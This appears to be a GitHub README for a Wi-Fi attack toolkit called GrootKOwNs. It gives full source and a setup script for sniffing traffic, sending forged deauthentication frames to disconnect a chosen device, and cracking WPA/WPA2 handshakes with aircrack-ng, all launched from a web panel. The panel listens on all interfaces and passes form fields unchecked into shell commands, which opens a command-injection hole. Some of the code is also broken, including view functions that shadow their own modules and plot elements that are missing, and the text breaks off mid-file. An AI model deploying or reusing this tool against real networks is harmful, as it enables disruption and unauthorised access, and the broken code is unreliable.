

# GrootKOwNs Mutant


### Step-by-Step Installation and Setup

#### 1. Setting Up the Environment

**Prerequisites:**
- Surface Pro 9 with WSL and Ubuntu installed
- External USB Wi-Fi adapter that supports monitor mode
- Ethical hacking permission

**Installing WSL and Ubuntu:**

1. Open PowerShell as Administrator and run:
   ```powershell
   wsl --install
   ```
2. Restart your computer if prompted.
3. Set up your Ubuntu user and password after the restart.

**Installing Required Tools:**

Open your Ubuntu terminal in WSL and run the following commands:

```bash
sudo apt-get update
sudo apt-get install aircrack-ng python3-pip python3-venv
pip3 install virtualenv
```

#### 2. Setting Up the Project

**Creating Virtual Environment:**

Navigate to the project directory and create a virtual environment:

```bash
mkdir -p ~/GITHub/Groot/Tools/grootkowns
cd ~/GITHub/Groot/Tools/grootkowns
python3 -m venv venv
source venv/bin/activate
```

**Creating `requirements.txt`:**

Create a `requirements.txt` file with the following content:

```text
Flask
scapy
waitress
requests
transformers
torch
matplotlib
seaborn
```

**Install Dependencies:**

```bash
pip install -r requirements.txt
```

#### 3. Download the Pre-trained Model Weights

**Create `download_model.py`:**

Create a script called `download_model.py` to download the model weights:

```python
from transformers import BertTokenizer, BertModel

# Load TinyBERT and download the weights
tokenizer = BertTokenizer.from_pretrained('huawei-noah/TinyBERT_General_4L_312D')
model = BertModel.from_pretrained('huawei-noah/TinyBERT_General_4L_312D')

print("Model and tokenizer downloaded.")
```

**Run this script once to download the weights:**

```bash
python download_model.py
```

#### 4. Backend Code

**Create `capture.py`:**

```python
from scapy.all import *
import threading
import storage
import time
import os
from transformers import BertTokenizer, BertModel
import torch

# Load TinyBERT
tokenizer = BertTokenizer.from_pretrained('huawei-noah/TinyBERT_General_4L_312D', local_files_only=True)
model = BertModel.from_pretrained('huawei-noah/TinyBERT_General_4L_312D', local_files_only=True)

def analyze_packet(packet):
    if packet.haslayer(Dot11):
        packet_info = packet.summary()
        inputs = tokenizer(packet_info, return_tensors="pt")
        outputs = model(**inputs)
        return outputs.last_hidden_state

def packet_handler(packet):
    analysis = analyze_packet(packet)
    storage.store_packet(packet, analysis)
    storage.store_packet_for_visualization(packet)

def start_capture(iface):
    sniff(iface=iface, prn=packet_handler)

def start_grootkowns():
    iface = input("Enter interface (e.g., wlan0mon): ")
    threading.Thread(target=start_capture, args=(iface,)).start()
    
    # Automated scanning and capturing
    while True:
        os.system(f'sudo airodump-ng {iface} --write grootkowns --output-format pcap')
        time.sleep(10)  # Adjust sleep duration as needed
```

**Create `crack.py`:**

```python
import os

def crack_password(handshake_file, wordlist_file, bssid):
    os.system(f"aircrack-ng -w {wordlist_file} -b {bssid} {handshake_file}")
```

**Create `deauth.py`:**

```python
from scapy.all import *

def deauth_attack(target_mac, gateway_mac, iface):
    dot11 = Dot11(addr1=target_mac, addr2=gateway_mac, addr3=gateway_mac)
    packet = RadioTap()/dot11/Dot11Deauth(reason=7)
    sendp(packet, inter=0.1, count=100, iface=iface, verbose=1)
```

**Create `storage.py`:**

```python
import json
import os

PACKET_FILE = 'packets.json'
HANDSHAKE_FILE = 'handshakes.json'
ANALYSIS_FILE = 'analysis.json'
VISUALIZATION_FILE = 'visualization_data.json'

def store_packet(packet, analysis):
    data = {
        'src': packet.addr2,
        'dst': packet.addr1,
        'info': packet.summary(),
        'analysis': analysis.tolist()  # Convert tensor to list for JSON serialization
    }
    with open(PACKET_FILE, 'a') as f:
        f.write(json.dumps(data) + "\n")

def store_packet_for_visualization(packet):
    data = {
        'src': packet.addr2,
        'dst': packet.addr1,
        'info': packet.summary(),
        'type': packet.type,
        'subtype': packet.subtype
    }
    with open(VISUALIZATION_FILE, 'a') as f:
        f.write(json.dumps(data) + "\n")

def store_handshake(handshake):
    with open(HANDSHAKE_FILE, 'a') as f:
        f.write(json.dumps(handshake) + "\n")

def read_logs(file_path):
    if os.path.exists(file_path):
        with open(file_path, 'r') as f:
            return f.readlines()
    return []

def read_visualization_data():
    if os.path.exists(VISUALIZATION_FILE):
        with open(VISUALIZATION_FILE, 'r') as f:
            return [json.loads(line) for line in f]
    return []
```

**Create `main.py`:**

```python
import capture
import deauth
import crack
import web

def main():
    print("Starting GrootKOwNs system...")
    choice = input("Choose an option:\n1. Start GrootKOwNs\n2. Start Web Interface\n> ")

    if choice == '1':
        capture.start_grootkowns()
    elif choice == '2':
        web.start_web_interface()
    else:
        print("Invalid choice. Exiting...")

if __name__ == "__main__":
    main()
```

**Create `web.py`:**

```python
from flask import Flask, request, jsonify, send_from_directory
import threading
import storage
import capture
import deauth
import crack
import matplotlib.pyplot as plt
import seaborn as sns
import io
import base64

app = Flask(__name__)

@app.route('/')
def home():
    return send_from_directory('client/build', 'index.html')

@app.route('/capture', methods=['POST'])
def capture_packets():
    iface = request.json['iface']
    threading.Thread(target=capture.start_grootkowns).start()
    return jsonify({"status": "Packet capture started on interface: " + iface})

@app.route('/deauth', methods=['POST'])
def deauth():
    target_mac = request.json['target_mac']
    gateway_mac = request.json['gateway_mac']
    iface = request.json['iface']
    threading.Thread(target=deauth.deauth_attack, args=(target_mac, gateway_mac, iface)).start()
    return jsonify({"status": f"Deauth attack started on target: {target_mac} via gateway: {gateway_mac}"})

@app.route('/crack', methods=['POST'])
def crack():
    handshake_file = request.json['handshake_file']
    wordlist_file = request.json['wordlist_file']
    bssid = request.json['bssid']
    threading.Thread(target=crack.crack_password, args=(handshake_file, wordlist_file, bssid)).start()
    return jsonify({"status": f"Cracking started on handshake file: {handshake_file}"})

@app.route('/log')
def log():
    logs = storage.read_logs(storage.PACKET_FILE)
    return jsonify(logs)

@app.route('/visualization_data')
def visualization_data():
    data = storage.read_visualization_data()
    return jsonify(data)

@app.route('/visualize_traffic')
def visualize_traffic():
    data = storage.read_visualization_data()
    src_counts = {}
    for entry in data:
        src = entry['src']
        if src in src_counts:
            src_counts[src] += 1
        else:
            src_counts[src] = 1
    
    # Create a bar plot
    src_labels = list(src_counts.keys())
    src_values = list(src_counts.values())
    
    plt.figure(figsize=(10, 6))
    sns.barplot(x=src_labels, y=src_values)
    plt.xlabel('Source MAC Address')
    plt.ylabel('Packet Count')
    plt.title('Network Traffic by Source MAC Address')
    plt.xticks(rotation=45, ha='right')
    plt.tight_layout()

    # Save the plot to a BytesIO object and encode as base64
    img = io.BytesIO()
    plt.savefig(img, format='png')
    img.seek(0)
    plot_url = base64.b64encode(img.getvalue()).decode('utf8')
    plt.close()

    return jsonify({'plot_url': f"data:image/png;base64,{plot_url}"})

@app.route('/visualize_attack_vectors')
def visualize_attack_vectors():
    data = storage.read_visualization_data()
    attack_data = [entry for entry in data if entry['type'] == 0 and entry['subtype'] == 12]  # Example: filter Deauth packets

    src_counts = {}
    for entry in attack_data:
        src = entry['src']
       

 if src in src_counts:
            src_counts[src] += 1
        else:
            src_counts[src] = 1

    # Create a bar plot
    src_labels = list(src_counts.keys())
    src_values = list(src_counts.values())

    plt.figure(figsize=(10, 6))
    sns.barplot(x=src_labels, y=src_values)
    plt.xlabel('Source MAC Address')
    plt.ylabel('Attack Packet Count')
    plt.title('Attack Vectors by Source MAC Address')
    plt.xticks(rotation=45, ha='right')
    plt.tight_layout()

    # Save the plot to a BytesIO object and encode as base64
    img = io.BytesIO()
    plt.savefig(img, format='png')
    img.seek(0)
    plot_url = base64.b64encode(img.getvalue()).decode('utf8')
    plt.close()

    return jsonify({'plot_url': f"data:image/png;base64,{plot_url}"})

def start_web_interface():
>     app.run(host='0.0.0.0', port=5000)
```

#### 5. Frontend Code

**Create `index.html`:**

Update `index.html` to include placeholders for the visualizations:

```html
<!DOCTYPE html>
<html>
<head>
    <title>GrootKOwNs</title>
    <style>
        body {
            background-color: #121212;
            color: #ffffff;
            font-family: Arial, sans-serif;
        }
        h1, h2 {
            text-align: center;
        }
        form {
            margin: 20px;
            padding: 20px;
            background-color: #1e1e1e;
            border-radius: 5px;
        }
        label, input {
            display: block;
            margin: 10px 0;
        }
        button {
            background-color: #6200ea;
            color: #ffffff;
            border: none;
            padding: 10px 20px;
            cursor: pointer;
            border-radius: 5px;
        }
        button:hover {
            background-color: #3700b3;
        }
        .log {
            background-color: #1e1e1e;
            padding: 10px;
            border-radius: 5px;
            overflow-y: scroll;
            height: 200px;
        }
        .visualization {
            margin: 20px;
            padding: 20px;
            background-color: #1e1e1e;
            border-radius: 5px;
        }
    </style>
</head>
<body>
    <h1>GrootKOwNs</h1>
    <form id="capture-form">
        <h2>Start Packet Capture</h2>
        <label for="iface">Interface:</label>
        <input type="text" id="iface" name="iface">
        <button type="submit">Start Capture</button>
    </form>
    <form id="deauth-form">
        <h2>Start Deauth Attack</h2>
        <label for="iface">Interface:</label>
        <input type="text" id="deauth_iface" name="iface">
        <label for="target_mac">Target MAC:</label>
        <input type="text" id="target_mac" name="target_mac">
        <label for="gateway_mac">Gateway MAC:</label>
        <input type="text" id="gateway_mac" name="gateway_mac">
        <button type="submit">Start Deauth Attack</button>
    </form>
    <form id="crack-form">
        <h2>Crack WPA/WPA2 Password</h2>
        <label for="handshake_file">Handshake File:</label>
        <input type="text" id="handshake_file" name="handshake_file">
        <label for="wordlist_file">Wordlist File:</label>
        <input type="text" id="wordlist_file" name="wordlist_file">
        <label for="bssid">BSSID:</label>
        <input type="text" id="bssid" name="bssid">
        <button type="submit">Start Cracking</button>
    </form>
    <div class="log" id="log">
        <h2>Live Log</h2>
    </div>
    <div class="visualization" id="traffic-visualization">
        <h2>Network Traffic Visualization</h2>
        
    </div>
    <div class="visualization" id="attack-visualization">
        <h2>Attack Vector Visualization</h2>
        
    </div>
    <script>
        document.getElementById('capture-form').onsubmit = function(e) {
            e.preventDefault();
            fetch('/capture', {
                method: 'POST',
                headers: {
                    'Content-Type': 'application/json'
                },
                body: JSON.stringify({ iface: document.getElementById('iface').value })
            }).then(response => response.json()).then(data => {
                console.log(data);
                updateLog();
            });
        };
        document.getElementById('deauth-form').onsubmit = function(e) {
            e.preventDefault();
            fetch('/deauth', {
                method: 'POST',
                headers: {
                    'Content-Type': 'application/json'
                },
                body: JSON.stringify({
                    iface: document.getElementById('deauth_iface').value,
                    target_mac: document.getElementById('target_mac').value,
                    gateway_mac: document.getElementById('gateway_mac').value
                })
            }).then(response => response.json()).then(data => {
                console.log(data);
                updateLog();
            });
        };
        document.getElementById('crack-form').onsubmit = function(e) {
            e.preventDefault();
            fetch('/crack', {
                method: 'POST',
                headers: {
                    'Content-Type': 'application/json'
                },
                body: JSON.stringify({
                    handshake_file: document.getElementById('handshake_file').value,
                    wordlist_file: document.getElementById('wordlist_file').value,
                    bssid: document.getElementById('bssid').value
                })
            }).then(response => response.json()).then(data => {
                console.log(data);
                updateLog();
            });
        };

        function updateLog() {
            fetch('/log').then(response => response.json()).then(data => {
                const logElement = document.getElementById('log');
                logElement.innerHTML = '<h2>Live Log</h2>';
                data.forEach(log => {
                    logElement.innerHTML += '<p>' + log + '</p>';
                });
            });
        }

        function updateVisualizations() {
            fetch('/visualize_traffic').then(response => response.json()).then(data => {
                document.getElementById('traffic-plot').src = data.plot_url;
            });
            fetch('/visualize_attack_vectors').then(response => response.json()).then(data => {
                document.getElementById('attack-plot').src = data.plot_url;
            });
        }

        setInterval(updateLog, 5000);
        setInterval(updateVisualizations, 10000);  // Update visualizations every 10 seconds
    </script>
</body>
</html>
```

**Update `App.js`:**

Replace the contents of `client/src/App.js` with:

```jsx
import React, { useState, useEffect } from 'react';
import axios from 'axios';
import './App.css';

function App() {
  const [logs, setLogs] = useState([]);

  useEffect(() => {
    const fetchLogs = async () => {
      const result = await axios.get('/log');
      setLogs(result.data);
    };
    
    const interval = setInterval(fetchLogs, 5000);
    return () => clearInterval(interval);
  }, []);

  const handleCapture = async (e) => {
    e.preventDefault();
    const iface = e.target.iface.value;
    await axios.post('/capture', { iface });
  };

  const handleDeauth = async (e) => {
    e.preventDefault();
    const iface = e.target.iface.value;
    const target_mac = e.target.target_mac.value;
    const gateway_mac = e.target.gateway_mac.value;
    await axios.post('/deauth', { iface, target_mac, gateway_mac });
  };

  const handleCrack = async (e) => {
    e.preventDefault();
    const handshake_file = e.target.handshake_file.value;
    const wordlist_file = e.target.wordlist_file.value;
    const bssid = e.target.bssid.value;
    await axios.post('/crack', { handshake_file, wordlist_file, bssid });
  };

  return (
    <div className="App">
      <header className="App-header">
        <h1>GrootKOwNs</h1>
        <form onSubmit={handleCapture}>
          <h2>Start Packet Capture</h2>
          <label>
            Interface:
            <input type="text" name="iface" />
          </label>
          <button type="submit">Start Capture</button>
        </form>
        <form onSubmit={handleDeauth}>
          <h2>Start Deauth Attack</h2>
          <label>
            Interface:
            <input type="text" name="iface" />
          </label>
          <label>
            Target MAC:
            <input type="text" name="target_mac" />
          </label>
          <label>
            Gateway MAC:
            <input type="text"

 name="gateway_mac" />
          </label>
          <button type="submit">Start Deauth Attack</button>
        </form>
        <form onSubmit={handleCrack}>
          <h2>Crack WPA/WPA2 Password</h2>
          <label>
            Handshake File:
            <input type="text" name="handshake_file" />
          </label>
          <label>
            Wordlist File:
            <input type="text" name="wordlist_file" />
          </label>
          <label>
            BSSID:
            <input type="text" name="bssid" />
          </label>
          <button type="submit">Start Cracking</button>
        </form>
        <div className="log">
          <h2>Live Log</h2>
          {logs.map((log, index) => (
            <p key={index}>{log}</p>
          ))}
        </div>
      </header>
    </div>
  );
}

export default App;
```

**Update `App.css`:**

Update `client/src/App.css` for dark mode:

```css
body {
  background-color: #121212;
  color: #ffffff;
  font-family: Arial, sans-serif;
}

h1, h2 {
  text-align: center;
}

form {
  margin: 20px;
  padding: 20px;
  background-color: #1e1e1e;
  border-radius: 5px;
}

label, input {
  display: block;
  margin: 10px 0;
}

button {
  background-color: #6200ea;
  color: #ffffff;
  border: none;
  padding: 10px 20px;
  cursor: pointer;
  border-radius: 5px;
}

button:hover {
  background-color: #3700b3;
}

.log {
  background-color: #1e1e1e;
  padding: 10px;
  border-radius: 5px;
  overflow-y: scroll;
  height: 200px;
}
```

#### 6. Building and Running the Application

**Build the React App:**

Navigate to the `client` directory, build the React app, and serve it using Flask:

```bash
cd client
npm install  # Ensure all dependencies are installed
npm run build
```

**Start the Flask Server:**

```bash
cd ..
python3 main.py
```

**Access the Interface:**

Navigate to `http://localhost:5000` in your browser to use the GrootKOwNs interface.


# Automation Script

```python
#!/bin/bash

# Create project directories
mkdir -p grootkowns/client/src
mkdir grootkowns/static
mkdir grootkowns/templates

# Create the main Python files
cat <<EOF > grootkowns/main.py
import capture
import deauth
import crack
import web

def main():
    print("Starting GrootKOwNs system...")
    choice = input("Choose an option:\n1. Start GrootKOwNs\n2. Start Web Interface\n> ")

    if choice == '1':
        capture.start_grootkowns()
    elif choice == '2':
        web.start_web_interface()
    else:
        print("Invalid choice. Exiting...")

if __name__ == "__main__":
    main()
EOF

cat <<EOF > grootkowns/capture.py
from scapy.all import *
import threading
import storage
import time
import os
from transformers import BertTokenizer, BertModel
import torch

# Load TinyBERT
tokenizer = BertTokenizer.from_pretrained('huawei-noah/TinyBERT_General_4L_312D', local_files_only=True)
model = BertModel.from_pretrained('huawei-noah/TinyBERT_General_4L_312D', local_files_only=True)

def analyze_packet(packet):
    if packet.haslayer(Dot11):
        packet_info = packet.summary()
        inputs = tokenizer(packet_info, return_tensors="pt")
        outputs = model(**inputs)
        return outputs.last_hidden_state

def packet_handler(packet):
    analysis = analyze_packet(packet)
    storage.store_packet(packet, analysis)
    storage.store_packet_for_visualization(packet)

def start_capture(iface):
    sniff(iface=iface, prn=packet_handler)

def start_grootkowns():
    iface = input("Enter interface (e.g., wlan0mon): ")
    threading.Thread(target=start_capture, args=(iface,)).start()
    
    # Automated scanning and capturing
    while True:
        os.system(f'sudo airodump-ng {iface} --write grootkowns --output-format pcap')
        time.sleep(10)  # Adjust sleep duration as needed
EOF

cat <<EOF > grootkowns/crack.py
import os

def crack_password(handshake_file, wordlist_file, bssid):
    os.system(f"aircrack-ng -w {wordlist_file} -b {bssid} {handshake_file}")
EOF

cat <<EOF > grootkowns/deauth.py
from scapy.all import *

def deauth_attack(target_mac, gateway_mac, iface):
    dot11 = Dot11(addr1=target_mac, addr2=gateway_mac, addr3=gateway_mac)
    packet = RadioTap()/dot11/Dot11Deauth(reason=7)
    sendp(packet, inter=0.1, count=100, iface=iface, verbose=1)
EOF

cat <<EOF > grootkowns/storage.py
import json
import os

PACKET_FILE = 'packets.json'
HANDSHAKE_FILE = 'handshakes.json'
ANALYSIS_FILE = 'analysis.json'
VISUALIZATION_FILE = 'visualization_data.json'

def store_packet(packet, analysis):
    data = {
        'src': packet.addr2,
        'dst': packet.addr1,
        'info': packet.summary(),
        'analysis': analysis.tolist()  # Convert tensor to list for JSON serialization
    }
    with open(PACKET_FILE, 'a') as f:
        f.write(json.dumps(data) + "\n")

def store_packet_for_visualization(packet):
    data = {
        'src': packet.addr2,
        'dst': packet.addr1,
        'info': packet.summary(),
        'type': packet.type,
        'subtype': packet.subtype
    }
    with open(VISUALIZATION_FILE, 'a') as f:
        f.write(json.dumps(data) + "\n")

def store_handshake(handshake):
    with open(HANDSHAKE_FILE, 'a') as f:
        f.write(json.dumps(handshake) + "\n")

def read_logs(file_path):
    if os.path.exists(file_path):
        with open(file_path, 'r') as f:
            return f.readlines()
    return []

def read_visualization_data():
    if os.path.exists(VISUALIZATION_FILE):
        with open(VISUALIZATION_FILE, 'r') as f:
            return [json.loads(line) for line in f]
    return []
EOF

cat <<EOF > grootkowns/web.py
from flask import Flask, request, jsonify, send_from_directory
import threading
import storage
import capture
import deauth
import crack
import matplotlib.pyplot as plt
import seaborn as sns
import io
import base64

app = Flask(__name__)

@app.route('/')
def home():
    return send_from_directory('client/build', 'index.html')

@app.route('/capture', methods=['POST'])
def capture_packets():
    iface = request.json['iface']
    threading.Thread(target=capture.start_grootkowns).start()
    return jsonify({"status": "Packet capture started on interface: " + iface})

@app.route('/deauth', methods=['POST'])
def deauth():
    target_mac = request.json['target_mac']
    gateway_mac = request.json['gateway_mac']
    iface = request.json['iface']
    threading.Thread(target=deauth.deauth_attack, args=(target_mac, gateway_mac, iface)).start()
    return jsonify({"status": f"Deauth attack started on target: {target_mac} via gateway: {gateway_mac}"})

@app.route('/crack', methods=['POST'])
def crack():
    handshake_file = request.json['handshake_file']
    wordlist_file = request.json['wordlist_file']
    bssid = request.json['bssid']
    threading.Thread(target=crack.crack_password, args=(handshake_file, wordlist_file, bssid)).start()
    return jsonify({"status": f"Cracking started on handshake file: {handshake_file}"})

@app.route('/log')
def log():
    logs = storage.read_logs(storage.PACKET_FILE)
    return jsonify(logs)

@app.route('/visualization_data')
def visualization_data():
    data = storage.read_visualization_data()
    return jsonify(data)

@app.route('/visualize_traffic')
def visualize_traffic():
    data = storage.read_visualization_data()
    src_counts = {}
    for entry in data:
        src = entry['src']
        if src in src_counts:
            src_counts[src] += 1
        else:
            src_counts[src] = 1
    
    # Create a bar plot
    src_labels = list(src_counts.keys())
    src_values = list(src_counts.values())
    
    plt.figure(figsize=(10, 6))
    sns.barplot(x=src_labels, y=src_values)
    plt.xlabel('Source MAC Address')
    plt.ylabel('Packet Count')
    plt.title('Network Traffic by Source MAC Address')
    plt.xticks(rotation=45, ha='right')
    plt.tight_layout()

    # Save the plot to a BytesIO object and encode as base64
    img = io.BytesIO()
    plt.savefig(img, format='png')
    img.seek(0)
    plot_url = base64.b64encode(img.getvalue()).decode('utf8')
    plt.close()

    return jsonify({'plot_url': f"data:image/png;base64,{plot_url}"})

@app.route('/visualize_attack_vectors')
def visualize_attack_vectors():
    data = storage.read_visualization_data()
    attack_data = [entry for entry in data if entry['type'] == 0 and entry['subtype'] == 12]  # Example: filter Deauth packets

    src_counts = {}
    for entry in attack_data:
        src = entry['src']
        if src in src_counts:
            src_counts[src] += 1
        else:
            src_counts[src] = 1

    # Create a bar plot
    src_labels = list(src_counts.keys())
    src_values = list(src_counts.values())

    plt.figure(figsize=(10, 6))
    sns.barplot(x=src_labels, y=src_values)
    plt.xlabel('Source MAC Address')
    plt.ylabel('Attack Packet Count')
    plt.title('Attack Vectors by Source MAC Address')
    plt.xticks(rotation=45, ha='right')
    plt.tight_layout()

    # Save the plot to a BytesIO object and encode as base64
    img = io.BytesIO()
    plt.savefig(img, format='png')
    img.seek(0)
    plot_url = base64.b64encode(img.getvalue()).decode('utf8')
    plt.close()

    return jsonify({'plot_url': f"data:image/png;base64,{plot_url}"})

def start_web_interface():
    app.run(host='0.0.0.0', port=5000)
EOF

# Create the requirements file
cat <<EOF > grootkowns/requirements.txt
Flask
scapy
waitress
requests
transformers
torch
matplotlib
seaborn
EOF

# Create the download_model.py script
cat <<EOF > grootkowns/download_model.py
from transformers import BertTokenizer, BertModel

# Load TinyBERT and download the weights
tokenizer = BertTokenizer.from_pretrained('huawei-noah/TinyBERT_General_4L_312D')
model = BertModel.from_pretrained('huawei-noah/TinyBERT_General_4L_312D')

print("Model and tokenizer downloaded.")
EOF

# Create the frontend files
cat <<EOF > grootkowns/client/public/index.html
<!DOCTYPE html>


<html>
<head>
    <title>GrootKOwNs</title>
    <style>
        body {
            background-color: #121212;
            color: #ffffff;
            font-family: Arial, sans-serif;
        }
        h1, h2 {
            text-align: center;
        }
        form {
            margin: 20px;
            padding: 20px;
            background-color: #1e1e1e;
            border-radius: 5px;
        }
        label, input {
            display: block;
            margin: 10px 0;
        }
        button {
            background-color: #6200ea;
            color: #ffffff;
            border: none;
            padding: 10px 20px;
            cursor: pointer;
            border-radius: 5px;
        }
        button:hover {
            background-color: #3700b3;
        }
        .log {
            background-color: #1e1e1e;
            padding: 10px;
            border-radius: 5px;
            overflow-y: scroll;
            height: 200px;
        }
        .visualization {
            margin: 20px;
            padding: 20px;
            background-color: #1e1e1e;
            border-radius: 5px;
        }
    </style>
</head>
<body>
    <h1>GrootKOwNs</h1>
    <form id="capture-form">
        <h2>Start Packet Capture</h2>
        <label for="iface">Interface:</label>
        <input type="text" id="iface" name="iface">
        <button type="submit">Start Capture</button>
    </form>
    <form id="deauth-form">
        <h2>Start Deauth Attack</h2>
        <label for="iface">Interface:</label>
        <input type="text" id="deauth_iface" name="iface">
        <label for="target_mac">Target MAC:</label>
        <input type="text" id="target_mac" name="target_mac">
        <label for="gateway_mac">Gateway MAC:</label>
        <input type="text" id="gateway_mac" name="gateway_mac">
        <button type="submit">Start Deauth Attack</button>
    </form>
    <form id="crack-form">
        <h2>Crack WPA/WPA2 Password</h2>
        <label for="handshake_file">Handshake File:</label>
        <input type="text" id="handshake_file" name="handshake_file">
        <label for="wordlist_file">Wordlist File:</label>
        <input type="text" id="wordlist_file" name="wordlist_file">
        <label for="bssid">BSSID:</label>
        <input type="text" id="bssid" name="bssid">
        <button type="submit">Start Cracking</button>
    </form>
    <div class="log" id="log">
        <h2>Live Log</h2>
    </div>
    <div class="visualization" id="traffic-visualization">
        <h2>Network Traffic Visualization</h2>
        
    </div>
    <div class="visualization" id="attack-visualization">
        <h2>Attack Vector Visualization</h2>
        
    </div>
    <script>
        document.getElementById('capture-form').onsubmit = function(e) {
            e.preventDefault();
            fetch('/capture', {
                method: 'POST',
                headers: {
                    'Content-Type': 'application/json'
                },
                body: JSON.stringify({ iface: document.getElementById('iface').value })
            }).then(response => response.json()).then(data => {
                console.log(data);
                updateLog();
            });
        };
        document.getElementById('deauth-form').onsubmit = function(e) {
            e.preventDefault();
            fetch('/deauth', {
                method: 'POST',
                headers: {
                    'Content-Type': 'application/json'
                },
                body: JSON.stringify({
                    iface: document.getElementById('deauth_iface').value,
                    target_mac: document.getElementById('target_mac').value,
                    gateway_mac: document.getElementById('gateway_mac').value
                })
            }).then(response => response.json()).then(data => {
                console.log(data);
                updateLog();
            });
        };
        document.getElementById('crack-form').onsubmit = function(e) {
            e.preventDefault();
            fetch('/crack', {
                method: 'POST',
                headers: {
                    'Content-Type': 'application/json'
                },
                body: JSON.stringify({
                    handshake_file: document.getElementById('handshake_file').value,
                    wordlist_file: document.getElementById('wordlist_file').value,
                    bssid: document.getElementById('bssid').value
                })
            }).then(response => response.json()).then(data => {
                console.log(data);
                updateLog();
            });
        };

        function updateLog() {
            fetch('/log').then(response => response.json()).then(data => {
                const logElement = document.getElementById('log');
                logElement.innerHTML = '<h2>Live Log</h2>';
                data.forEach(log => {
                    logElement.innerHTML += '<p>' + log + '</p>';
                });
            });
        }

        function updateVisualizations() {
            fetch('/visualize_traffic').then(response => response.json()).then(data => {
                document.getElementById('traffic-plot').src = data.plot_url;
            });
            fetch('/visualize_attack_vectors').then(response => response.json()).then(data => {
                document.getElementById('attack-plot').src = data.plot_url;
            });
        }

        setInterval(updateLog, 5000);
        setInterval(updateVisualizations, 10000);  // Update visualizations every 10 seconds
    </script>
</body>
</html>
EOF

cat <<EOF > grootkowns/client/src/App.js
import React, { useState, useEffect } from 'react';
import axios from 'axios';
import './App.css';

function App() {
  const [logs, setLogs] = useState([]);

  useEffect(() => {
    const fetchLogs = async () => {
      const result = await axios.get('/log');
      setLogs(result.data);
    };
    
    const interval = setInterval(fetchLogs, 5000);
    return () => clearInterval(interval);
  }, []);

  const handleCapture = async (e) => {
    e.preventDefault();
    const iface = e.target.iface.value;
    await axios.post('/capture', { iface });
  };

  const handleDeauth = async (e) => {
    e.preventDefault();
    const iface = e.target.iface.value;
    const target_mac = e.target.target_mac.value;
    const gateway_mac = e.target.gateway_mac.value;
    await axios.post('/deauth', { iface, target_mac, gateway_mac });
  };

  const handleCrack = async (e) => {
    e.preventDefault();
    const handshake_file = e.target.handshake_file.value;
    const wordlist_file = e.target.wordlist_file.value;
    const bssid = e.target.bssid.value;
    await axios.post('/crack', { handshake_file, wordlist_file, bssid });
  };

  return (
    <div className="App">
      <header className="App-header">
        <h1>GrootKOwNs</h1>
        <form onSubmit={handleCapture}>
          <h2>Start Packet Capture</h2>
          <label>
            Interface:
            <input type="text" name="iface" />
          </label>
          <button type="submit">Start Capture</button>
        </form>
        <form onSubmit={handleDeauth}>
          <h2>Start Deauth Attack</h2>
          <label>
            Interface:
            <input type="text" name="iface" />
          </label>
          <label>
            Target MAC:
            <input type="text" name="target_mac" />
          </label>
          <label>
            Gateway MAC:
            <input type="text" name="gateway_mac" />
          </label>
          <button type="submit">Start Deauth Attack</button>
        </form>
        <form onSubmit={handleCrack}>
          <h2>Crack WPA/WPA2 Password</h2>
          <label>
            Handshake File:
            <input type="text" name="handshake_file" />
          </label>
          <label>
            Wordlist File:
            <input type="text" name="wordlist_file" />
          </label>
          <label>
            BSSID:
            <input type="text" name="bssid" />
          </label>
          <button type="submit">Start Cracking</button>
        </form>
        <div className="log">
          <h2>Live Log</h2>
          {logs.map((log, index) => (
            <p key={index}>{log}</p>
          ))}
        </div>
      </header>
    </div>
  );
}

export default App;
EOF

cat <<EOF > grootkowns/client/src/App.css
body {
  background-color: #121212;
  color: #ffffff;
  font-family: Arial, sans-serif;
}

h1, h2 {
  text-align: center;
}

form {
  margin:

 20px;
  padding: 20px;
  background-color: #1e1e1e;
  border-radius: 5px;
}

label, input {
  display: block;
  margin: 10px 0;
}

button {
  background-color: #6200ea;
  color: #ffffff;
  border: none;
  padding: 10px 20px;
  cursor: pointer;
  border-radius: 5px;
}

button:hover {
  background-color: #3700b3;
}

.log {
  background-color: #1e1e1e;
